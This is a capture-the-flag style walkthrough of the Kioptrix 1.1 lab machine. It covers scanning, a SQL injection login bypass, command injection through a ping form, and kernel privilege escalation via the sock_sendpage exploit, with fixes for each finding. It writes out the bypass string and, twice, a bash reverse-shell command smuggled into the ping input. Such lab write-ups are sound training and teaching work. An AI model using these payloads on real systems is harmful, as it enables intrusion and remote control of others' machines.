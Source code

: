 # **Vulnerable System** : Kioptrix 1.1

**Operating System** : CentOS 4.5

**Kernel** : 2.6.9

**Vulnerability Exploited** : SQL Injection

**Exploit Used** : N/A

**Proof of Concept Code** : Admin&#39; #

**Vulnerability Explained** :  The Remote System Administration Login was vulnerable to SQL injection, which granted access to Remote System Administration Web Console.

**Vulnerability fix** : When making a login page that connects to MySQL database, either use dynamic queries or make sure that user&#39;s input is validated.

**Severity: Low**

----------------------------------------------------------------------------------------------------------------------------------------

**Vulnerability Exploited** : Command Execution

**Exploit Used** : N/A

**Proof of Concept Code** : 192.168.20.144 &amp;&amp; bash -i \&gt;&amp; /dev/tcp/192.168.20.144/443 0\&gt;&amp;1

**Vulnerability Explained** :  The Remote System Administration Web Console page was vulnerable to command execution, which resulted in gaining low privilege shell.

**Vulnerability fix** : User input should be validated and only IP address should be allowed to be entered.

**Severity** : **Medium**

----------------------------------------------------------------------------------------------------------------------------------------

**Privilege Escalation Vulnerability** : Linux Kernel &#39;sock\_sendpage()&#39; NULL Pointer Dereference

**Exploit Used** : Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - &#39;sock\_sendpage()&#39; Local Privilege Escalation

**Proof of Concept Code** : [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

**Privilege Escalation Vulnerability Explained:** Linux kernel vulnerability allows to gain administrative privileges with specifically crafted executable.

**Vulnerability fix** : Update Linux kernel to the newest version possible. Patches available from the vendor, for more information [https://access.redhat.com/security/cve/cve-2009-2692](https://access.redhat.com/security/cve/cve-2009-2692).

**Severity** : **High**

----------------------------------------------------------------------------------------------------------------------------------------

## Methodology

    * Host Discovery (arpscan)

    * Port Scanning (nmap)

    * Web Port Enumeration (nikto, gobuster, browser)

    * Discovered MySQL Injection Vulnerability (browser)

    * Discovered Command Execution Vulnerability (browser)

    * Low Privilege Shell Gained

    * Privilege Escalation Enumeration (uname, cat /etc/\*-release)

    * Discovered Appropriate Exploit &#39;sock\_sendpage()&#39; Local Privilege Escalation (searchsploit/exploit-db)

    * Compiled the Exploit and Gained Administrative Privileges

----------------------------------------------------------------------------------------------------------------------------------------

## Arp-scan

Discovering the vulnerable system with arp-scan -l:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/arp-scan.png)

## Nmap

Nmap all ports scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_allportsd.png)

\*Note: Nmap -p- flag scans all TCP ports from 1 to 65535.

Nmap version, default script and aggressive scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv.png)
 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv1.png)

-p specifies the ports to scan

-sV flag attempts to determine service and version information for given ports

-sC flag utilizes a default set of nmap scripts



## Port 80 Enumeration

### Nikto

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nikto.png)

### Gobuster

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/gobuster.png)

  *Note: Gobuster discovers hidden web directories. New versions of gobuster come with 3 different modes: dns, dir and vhost. In this case dir is used. -u flag is used to specify the url and -w flag is used to specify the wordlist to be used.

### Browser

The browser presents us with a login page:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/browser.png)

## Exploitation

### Low Privilege Exploitation

#### SQL Injection

The login page is vulnerable to SQL injection:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/sql_injection.png)

#### Command Execution

Once logged it, there seems to be a ping command running from the web interface:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution1.png)

With the correct syntax it&#39;s possible to append another command to the ping command to execute the reverse shell as shown below:

192.168.20.144 &amp;&amp; bash -i \&gt;&amp; /dev/tcp/192.168.20.144/443 0\&gt;&amp;1

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution3.png)

### Privilege Escalation

Obtaining low privilege shell and determining the system&#39;s operating system and kernel:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/low%20privilege.png)

python -c &quot;import pty;pty.spawn(&#39;/bin/bash&#39;)&quot; command upgrades the &quot;dumb&quot; web shell to fully interactive tty shell. With out this, commands such as su – will not work.

The operating system is CentOS release 4.5 and the kernel version is 2.6.9



#### Searchsploit:

Searching exploit-db for suitable exploit:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit2.png)

#### Privilege Escalation Exploit

Downloading the exploit to the victim machine.

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/downloading.png)

Compiling the exploit, executing the exploit and gaining root privileges:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/compiling.png)
